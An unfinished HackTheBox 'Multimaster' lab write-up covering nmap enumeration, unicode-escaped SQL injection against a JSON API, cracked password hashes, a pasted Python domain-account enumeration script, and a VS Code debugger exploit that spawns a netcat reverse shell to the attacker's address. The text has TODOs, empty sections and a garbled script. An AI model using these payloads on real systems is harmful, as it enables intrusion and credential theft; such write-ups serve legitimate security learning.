

# HTB - Multimaster

## Overview



Hold on to your seats, because this Insane Windows machine is a wild ride. TODO:Finish this writeup, there are more notes and stuff in the notes app if anything is missing...

## Useful Skills and Tools

* description with generic example
* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.179`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output with a filename of `<name>`.

At first my scan wouldn't go through until I added the `-Pn` flag to stop nmap from sending ICMP probes. After that it proceeded normally.

```text
zweilos@kalimaa:~/htb/multimaster$ nmap -p- -sC -sV -oN multimaster.nmap 10.10.10.179 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:17 EDT
Nmap scan report for 10.10.10.179
Host is up (0.050s latency).
Not shown: 65513 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MegaCorp
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-19 16:31:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2020-07-19T16:34:16+00:00
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2020-03-08T09:52:26
|_Not valid after:  2020-09-07T09:52:26
|_ssl-date: 2020-07-19T16:34:55+00:00; +11m43s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/19%Time=5F1472C4%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h35m44s, deviation: 3h07m51s, median: 11m42s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2020-07-19T09:34:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-19T16:34:17
|_  start_date: 2020-07-18T22:51:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 486.11 seconds
```

lots of ports open

```text
rpcclient $> lsaquery
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```

Capturing the burp request to the `/api/get/Colleagues`

```text
POST /api/getColleagues HTTP/1.1
Host: 10.10.10.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.179/
Content-Type: application/json;charset=utf-8
Content-Length: 91
Connection: close
DNT: 1

{"name":"\u0061\u0027\u0020\u006F\u0072\u0020\u0031\u003D\u0031\u003B\u0020\u002D\u002D"}
```

This is the unicode escaped equivilent of `a' or 1=1; --` And the response:

```text
HTTP/1.1 200 OK
Cache-Control: no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Mon, 20 Jul 2020 20:34:22 GMT
Connection: close
Content-Length: 1821

[{"id":1,"name":"Sarina Bauer","position":"Junior Developer","email":"sbauer@megacorp.htb","src":"sbauer.jpg"},{"id":2,"name":"Octavia Kent","position":"Senior Consultant","email":"okent@megacorp.htb","src":"okent.jpg"},{"id":3,"name":"Christian Kane","position":"Assistant Manager","email":"ckane@megacorp.htb","src":"ckane.jpg"},{"id":4,"name":"Kimberly Page","position":"Financial Analyst","email":"kpage@megacorp.htb","src":"kpage.jpg"},{"id":5,"name":"Shayna Stafford","position":"HR Manager","email":"shayna@megacorp.htb","src":"shayna.jpg"},{"id":6,"name":"James Houston","position":"QA Lead","email":"james@megacorp.htb","src":"james.jpg"},{"id":7,"name":"Connor York","position":"Web Developer","email":"cyork@megacorp.htb","src":"cyork.jpg"},{"id":8,"name":"Reya Martin","position":"Tech Support","email":"rmartin@megacorp.htb","src":"rmartin.jpg"},{"id":9,"name":"Zac Curtis","position":"Junior Analyst","email":"zac@magacorp.htb","src":"zac.jpg"},{"id":10,"name":"Jorden Mclean","position":"Full-Stack Developer","email":"jorden@megacorp.htb","src":"jorden.jpg"},{"id":11,"name":"Alyx Walters","position":"Automation Engineer","email":"alyx@megacorp.htb","src":"alyx.jpg"},{"id":12,"name":"Ian Lee","position":"Internal Auditor","email":"ilee@megacorp.htb","src":"ilee.jpg"},{"id":13,"name":"Nikola Bourne","position":"Head of Accounts","email":"nbourne@megacorp.htb","src":"nbourne.jpg"},{"id":14,"name":"Zachery Powers","position":"Credit Analyst","email":"zpowers@megacorp.htb","src":"zpowers.jpg"},{"id":15,"name":"Alessandro Dominguez","position":"Senior Web Developer","email":"aldom@megacorp.htb","src":"aldom.jpg"},{"id":16,"name":"MinatoTW","position":"CEO","email":"minato@megacorp.htb","src":"minato.jpg"},{"id":17,"name":"egre55","position":"CEO","email":"egre55@megacorp.htb","src":"egre55.jpg"}]
```

next attempted to enumerate the valid users who have active accounts on this machine through Kerberos.

```text
zweilos@kalimaa:~/htb/multimaster$ python3 /home/zweilos/impacket/examples/GetNPUsers.py -outputfile multimaster.hash -format hashcat -usersfile /home/zweilos/htb/multimaster/users -no-pass -dc-ip 10.10.10.179 MEGACORP/egre55
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

used [wafw00f](https://github.com/enablesecurity/wafw00f) to detect if there was a WAF, but none was detected [https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/) [https://github.com/0xInfection/Awesome-WAF\#testing-methodology](https://github.com/0xInfection/Awesome-WAF#testing-methodology) [https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py)

mine [https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body](https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body) [https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json](https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json) sqlmap -r burppost —tamper charunicodetamper.py —dbs -delay 5 sqlmap -r burppost —tamper charunicodetamper.py —D Hub\_DB -tables -delay 5 sqlmap will automatically detect that there is JSON data in your POST and will ask if you would like for it to process it. sqlmap called hash sha384\_generic\_passwd [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) verified that the hash was sha2-384 There were duplicates of each hash, only four unique;

hashcat -m 10800 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt Possible algorithms: Keccak-384

```text
zweilos@kalimaa:~/htb/multimaster$hashcat -m 17900 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt
snipped...

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: Keccak-384
Hash.Target......: hash
Time.Started.....: Mon Jul 20 19:17:45 2020 (11 secs)
Time.Estimated...: Mon Jul 20 19:17:56 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1309.3 kH/s (1.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 3/4 (75.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 3094/14344385 (0.02%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[21217265626f756e642121] -> $HEX[042a0337c2a156616d6f732103]

Started: Mon Jul 20 19:17:26 2020
Stopped: Mon Jul 20 19:17:57 2020
```

Hashcat was able to crack 3 out of 4 of the hashes

```text
zweilos@kalimaa:~/htb/multimaster$ cat hash.cracked 
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```

Just because the usernames I got were in the database does not mean they can login to this machine. Maybe need to enumerate users from the the domain in another way since ldap and rpc were not helpful [https://kalilinuxtutorials.com/mssql-injection](https://kalilinuxtutorials.com/mssql-injection) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet) [https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server\`](https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server`)' -- exec xp\_cmdshell 'net group /domain'\` returns same list as earlier user enumeration

```text
USERS list
james
dai
tushikikatomo
zac
lana
andrew
jorden
alyx
cyork
rmartin
DnsAdmins
DnsUpdateProxy
svc-nas
svc-sql
ckane
kpage
ilee
nPourne
```

from enum4linux

```text
 =========================================== 
|    Getting domain SID for 10.10.10.179    |
 =========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
[+] Host is part of a domain (not a workgroup)
```

[https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253](https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253) [https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/](https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/) SID in HEX `0x0105000000000005150000001C00D1BCD181F1492BDFC23600020000`

[https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/](https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet)

[https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue](https://translate.google.com/translate?hl=en&sl=ru&u=https://lolz.guru/threads/1537485/&prev=search&pto=aue)

```python
#! / usr / bin / env python
#This script enumerates domain users through MS SQL Server
#Requires the SID of the domain
import requests
import re
import json
import time
from termcolor import colored

def little (s):
    try:
        t = bytearray.fromhex (s)
        t.reverse ()
        return "" .join (format (x, "02x") for x in t) .upper ()
    except:
        print colored ("[i] Finished, Domain Accounts are over", "blue")
        exit (0)

if __name__ == "__main__":
    i = 1100
    SID = "0x0105000000000005150000001C00D1BCD181F1492BDFC236"
    #SID = raw_input ("Enter SID:")
    URL = "http://10.10.10.179/api/getColleagues"
    #URL = raw_input ("Enter URL:")

    print colored ("\ n \ t + ------------------------------------------ ---------------------------- + "," magenta ")
    print colored ("\ t | |", "magenta")
    print colored ("\ t | Enumerating Script For Domain Accounts by M0NET |", "magenta")
    print colored ("\ t | SID:" + SID + "|", "magenta")
    print colored ("\ t | |", "magenta")
    print colored ("\ t + -------------------------------------------- -------------------------- + \ n \ n "," magenta ")

    for x in range (1100,6100,1000):
        for i in range (15):
            JUNK = "0" + hex ((x + i)) [2:]. Upper ()
            RID = SID + little (JUNK) + 4 * "0"
            payload = "- 'union select 1,2,3,4, SUSER_SNAME ({}) - -". format (RID)
            #payload = raw_input ("Enter Payload:")
            pattern = re.compile (r "([0-9a-f] {2})")
            encpyload = pattern.sub (r "\\ u00 \ 1", payload.encode ("hex"))
            r = requests.post (URL, data = '{"name": "' + encpyload + '"}', headers = {"Content-Type": "application / json; charset = utf-8"})
            if "403 - Forbidden: Access is denied." in r.text:
                print colored ("[-] Sleeping until WAF cooldown", "red")
                time.sleep (10)
                continue
            if "\\" in r.text:
                print colored ("[i] Counter:" + format ((x + i)), "blue")
                print colored ("[+] RID:" + format (RID), "green")
                print colored ("[+] Pyload:" + payload, "green")
                #print colored ("[+] Encoded payload:" + format (encpayload), "green")
                print colored ("\ n" + r.text, "yellow")

            jsona = json.loads (r.text)
            if jsona:
                try:
                    for element in jsona:
                        del element [u "position"]
                        del element [u "id"]
                        del element [u "email"]
                        del element [u "name"]
                except TypeError:
                    del jsona [u "position"]
                    del jsona [u "id"]
                    del jsona [u "email"]
                    del jsona [u "name"]
                data = json.dumps (jsona, sort_keys = True, indent = 4)
                if "\\" in r.text:
                    print colored (data + "\ n", "yellow")
            i + = 1
```

## Initial Foothold

## Road to User

### Further enumeration

### Finding user creds

```text
zweilos@kalimaa:~/htb/multimaster$ evil-winrm -u tushikikatomo -i 10.10.10.179 -p finance1

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```

### User.txt

```text
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> cat user.txt
6043eb65fb46ebf347fa4c1fe9584a2f
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `tushikikatomo`

```text
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== =============================================
megacorp\tushikikatomo S-1-5-21-3167813660-1240564177-918740779-1110


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

User folders on this box include:

```text
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/7/2020   7:24 PM                .NET v4.5
d-----         1/7/2020   7:24 PM                .NET v4.5 Classic
d-----         1/9/2020   3:18 AM                Administrator
d-----         3/9/2020   3:20 AM                alcibiades
d-----         3/9/2020   2:53 AM                cyork
d-----         1/9/2020   5:14 PM                jorden
d-----         3/7/2020   8:38 AM                MSSQLSERVER
d-r---       11/20/2016   5:24 PM                Public
d-----         1/9/2020   5:12 PM                sbauer
d-----         3/7/2020   8:38 AM                SQLTELEMETRY
```

[https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/](https://0xdarkvortex.dev/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/)

```text
*Evil-WinRM* PS C:\> net users /domain

User accounts for \\                                                                                 -------------------------------------------------------------------------------                         
Administrator            aldom                    alice
alyx                     andrew                   ckane
cyork                    dai                      DefaultAccount
Guest                    ilee                     james
jorden                   jsmmons                  kpage
krbtgt                   lana                     nbourne
okent                    pmartin                  rmartin
sbauer                   svc-nas                  svc-sql
tushikikatomo            zac                      zpowers
The command completed with one or more errors.
```

```text
*Evil-WinRM* PS C:\Users\alcibiades\Documents> net group /domain

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*Developers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Privileged IT Accounts
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*test
The command completed with one or more errors.
```

text

```text
*Evil-WinRM* PS C:\Users\alcibiades\Documents> net group 'Developers'
Group name     Developers
Comment

Members

-------------------------------------------------------------------------------
aldom                    cyork                    jorden
sbauer
The command completed successfully.
```

[https://activedirectorypro.com/powershell-commands/](https://activedirectorypro.com/powershell-commands/)

```text
*Evil-WinRM* PS C:\Users\alcibiades\Documents> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    328      32    39292      64712               180   1 Code
    628      43    32524      84076               760   1 Code
    412      53    94712     131244              4568   1 Code
    414      22    16260      24216              4864   1 Code
    285      51    57736      74568              5548   1 Code
    284      51    58528      74368              5616   1 Code
    211      15     6108      12548              5916   1 Code
    416      55    95496     135496              6084   1 Code
    117      10     2940      12652              6092   1 conhost
    361      13     1916       4280               380   0 csrss
    235      16     2168       4152               468   1 csrss
    357      32    14196      24664              2296   0 dfsrs
    170      13     2384       7740              2548   0 dfssvc
    209      13     3640      12420              3104   0 dllhost
    102       7     1272       5744              4624   0 dllhost
  10317    7406   129808     127984              2272   0 dns
    328      21    27084      57052                76   1 dwm
   1186      50    18764      69524              4148   1 explorer
      0       0        0          4                 0   0 Idle
    119      12     1732       5420              2316   0 ismserv
   1903     235    52220      66620               592   0 lsass
    602      30    36908      46132              2244   0 Microsoft.ActiveDirectory.WebServices
    157      10     2636       8652              5736   0 MpCmdRun
    190      13     2748       9848              3372   0 msdtc
    568      67   145132     123708              2496   0 MsMpEng
    171      39     3952      11240              3820   0 NisSrv
    346      11     4920      10780               584   0 services
    255      14     2968      16884              4900   1 sihost
     51       2      392       1216               296   0 smss
    441      25     6284      18092              2204   0 spoolsv
    978      29    47416      55204              3280   0 sqlceip
    670     100   369680     261356              3288   0 sqlservr
    106       9     1712       7616              2352   0 sqlwriter
    496      30    11704      22556               344   0 svchost
    639      45     8884      22468               580   0 svchost
    564      20     5632      18732               764   0 svchost
    428      34    10276      18628               780   0 svchost
    588      18     4264       9896               816   0 svchost
   1592      53    26188      51036               960   0 svchost
    506      20     4484      12960               968   0 svchost
    501      18    12688      19136               992   0 svchost
    869      31     9004      21868              1000   0 svchost
    157      11     1696       6884              1344   0 svchost
    137      12     1788       6912              1436   0 svchost
    239      18     2656       9252              1460   0 svchost
    140      11     3768      10516              2256   0 svchost
    363      20     7556      21320              2264   0 svchost
    187      16     4116      15060              2400   0 svchost
    197      14     4796      11724              2436   0 svchost
    284      18     4368      19148              4912   1 svchost
    978       0      124        144                 4   0 System
    233      16     3060      13748              4940   1 taskhostw
    197      16     2620      11192              3120   0 vds
    146      11     3060       9996              2452   0 VGAuthService
    352      21    10084      23688              2444   0 vmtoolsd
    206      17     3692      14316              5228   1 vmtoolsd
     92       8      956       4848               460   0 wininit
    202      10     2112      10272               536   1 winlogon
    336      17    10316      20344              3032   0 WmiPrvSE
    637      27    58080      75892       1.23   3068   0 wsmprovhost
    258      11     1836       7888              1364   0 WUDFHost
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\resources\app> more package.json
{
  "name": "Code",
  "version": "1.37.1",
```

[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1414](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-1414)

> An elevation of privilege vulnerability exists in Visual Studio Code when it exposes a debug listener to users of a local computer. A local attacker who successfully exploited the vulnerability could inject arbitrary code to run in the context of the current user. If the current user is logged on with administrative user rights, an attacker could take control of the affected system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights. To exploit this vulnerability, a local attacker would need to determine which port Visual Studio Code is listening on for a targeted user.

### Moving to user2

each site leads to next : [https://vulmon.com/vulnerabilitydetails?qid=CVE-2019-1414](https://vulmon.com/vulnerabilitydetails?qid=CVE-2019-1414) [https://github.com/qazbnm456/awesome-cve-poc](https://github.com/qazbnm456/awesome-cve-poc) [https://github.com/nu11secur1ty/Exp101tsArchiv30thers](https://github.com/nu11secur1ty/Exp101tsArchiv30thers) [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)

> Exploitation There are two main limitations to the exploitability, that are: 1. the debug port binds to 127.0.0.1 2. a random TCP port is used every execution
>
> Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a DNS Rebinding attack to bypass the Same Origin Policy. To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a HTTP GET request to /json URL and then connect to it using the WebSocket protocol.

[https://github.com/phra/inspector-exploiter](https://github.com/phra/inspector-exploiter)

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> more code.cmd
@echo off
setlocal
set VSCODE_DEV=
set ELECTRON_RUN_AS_NODE=1
"%~dp0..\Code.exe" "%~dp0..\resources\app\out\cli.js" %*
endlocal
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> more ../\resources\app\out\cli.js
/*---------------------------------------------------------------------------------------------
 *  Copyright (c) Microsoft Corporation. All rights reserved.
 *  Licensed under the MIT License. See License.txt in the project root for license information.
 *--------------------------------------------------------------------------------------------*/
"use strict";const bootstrap=require("./bootstrap");bootstrap.avoidMonkeyPatchFromAppInsights(),bootstrap.configurePortable(),bootstrap.enableASARSupport(),require("./bootstrap-amd").load("vs/code/node/cli");
//# sourceMappingURL=https://ticino.blob.core.windows.net/sourcemaps/f06011ac164ae4dc8e753a3fe7f9549844d15e35/core/cli.js.map
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> ./code --inspect
code.cmd : Debugger listening on ws://127.0.0.1:9229/a377826b-0406-4fce-8a79-41ac482f80fb
    + CategoryInfo          : NotSpecified: (Debugger listen...79-41ac482f80fb:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
For help, see: https://nodejs.org/en/docs/inspector
```

text

```text
*Evil-WinRM* PS C:\Users\alcibiades> ./c.exe
c.exe : [2020/07/24 07:42:30:1971] U: There are 3 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:42:50:2430] U: There were 1 servers that appear to be CEF debuggers.
[2020/07/24 07:42:50:2430] U: ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd
```

had to keep starting over again as the CEF debug server kept changing

```text
*Evil-WinRM* PS C:\Users\alcibiades> C:\Users\alcibiades\c.exe --url ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd --code "process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')"
c.exe : [2020/07/24 07:44:55:7426] U: >>> process.mainModule.require('child_process').exec('cmd.exe /c C:\Users\alcibiades\nc.exe 10.10.15.57 4445 -e cmd.exe')
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...45 -e cmd.exe'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:44:55:7426] U: <<< ChildProcess
```

### Moving laterally to user - `cyork`

```text
*Evil-WinRM* PS C:\Users\cyork\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\cyork S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

